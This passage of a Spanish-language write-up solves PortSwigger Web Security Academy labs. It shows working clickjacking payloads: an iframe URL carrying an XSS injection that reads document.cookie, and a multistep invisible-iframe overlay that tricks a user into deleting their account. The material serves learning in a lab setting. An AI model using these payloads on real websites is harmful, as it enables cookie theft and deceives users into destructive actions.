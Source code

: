 ```html
</style>
<div>Click me</div>
<iframe
  src="https://acc01f561e12d7bb8043912700a00045.web-security-academy.net/feedback?name=<img src=1 onerror=alert(document.cookie)>&email=alguien@algo.com&subject=alguno&message=hello#feedbackResult"
></iframe>
```

### [Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)

En este laboratorio se deben tener dos elementos en los que el usuario deberá hacer click uno antes que el otro, debido a que la intención es eliminar la cuenta del mismo, para lo cual deberá hacer un click primeramente para iniciar la acción de eliminar la cuenta, y luego otro click de confirmación para que la cuenta sea eliminada.

Para resolver este laboratorio, vamos a la sección Account Actions, copiamos la url y la pegamos en el src del siguiente iframe:

```html
<style>
  iframe {
    position: relative;
    width: 500px;
    height: 700px;
    opacity: 0.0001;
    z-index: 2;
  }
  .first,
  .next {
    position: absolute;
    top: 330px;
    left: 50px;
    z-index: 1;
  }
  .next {
    left: 200px;
  }
</style>
<div class="first">Click me first</div>
<div class="next">Click me next</div>
<iframe src="https://ac391f251e65efb180df32b2007d0066.web-security-academy.net/account"></iframe>
```

---

## [DOM-based vulnerabilities](https://portswigger.net/web-security/dom-based)

### [DOM XSS using web messages](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages)

